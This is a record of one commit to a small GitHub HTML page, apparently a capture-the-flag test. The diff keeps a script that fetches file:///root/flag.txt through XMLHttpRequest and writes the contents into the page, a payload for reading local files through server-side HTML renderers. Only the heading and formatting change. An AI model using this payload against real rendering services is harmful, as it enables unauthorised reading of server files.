

Before and after one commit to Madcat3321/testthack, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,15 +2,15 @@
 <html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
 
 <body>
-      <h1>About my website! 🎙</h1>
-      <p>Thanks for following this tutorial. 🙏</p>
+	<h1>Hack YOu</h1>
+	<p>Its for teest 24442</p>
 <script>
-  x=new XMLHttpRequest;
-  x.onload=function(){
-  document.write(this.responseText)
-  };
-  x.open("GET","file:///root/flag.txt");
-  x.send();
+	x=new XMLHttpRequest;
+	x.onload=function(){
+	document.write(this.responseText)};
+  	x.open("GET","file:///root/flag.txt");
+  	x.send();
 </script>
 
-</body></html>
+</body>
+</html>
```
